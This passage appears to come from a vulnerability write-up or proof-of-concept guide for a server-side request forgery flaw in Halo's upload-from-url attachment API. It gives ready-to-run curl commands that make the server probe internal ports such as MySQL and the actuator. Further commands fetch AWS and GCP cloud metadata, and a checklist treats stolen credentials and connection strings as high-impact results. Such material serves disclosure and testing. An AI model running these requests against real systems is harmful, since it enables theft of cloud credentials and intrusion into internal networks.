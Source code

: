 #### Step 7: Internal Network Reconnaissance

```bash
# Test internal service access (Halo actuator endpoints)
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://127.0.0.1:8090/actuator/health","filename":"internal-health.json"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

# Expected: 201 Created with attachment containing internal service response

# Test other internal ports
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://127.0.0.1:3306","filename":"mysql-probe.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"
```

#### Step 8: Cloud Metadata Server Testing

```bash
# AWS EC2 metadata (if running on AWS)
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://169.254.169.254/latest/meta-data/","filename":"aws-metadata.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

# GCP metadata (if running on GCP)
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://metadata.google.internal/computeMetadata/v1/","filename":"gcp-metadata.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"
```

#### What to Look For:

**✅ Successful SSRF Indicators:**
- `HTTP/1.1 201 Created` responses with attachment metadata
- **DUAL canary hits**: HEAD request followed by GET request  
- Attachments created containing internal service responses
- Different response times indicating network connectivity
- Internal service content saved as downloadable attachments

**❌ Blocked/Failed Attempts:**
- `HTTP/1.1 400 Bad Request` responses
- No canary hits after 5+ seconds
- `HTTP/1.1 401 Unauthorized` (authentication required)
- `HTTP/1.1 500 Internal Server Error`

**🔥 High-Impact Results:**
- Cloud metadata credentials saved as attachments
- Internal service responses accessible via Halo attachment URLs
- Database connection strings or admin panels exfiltrated

---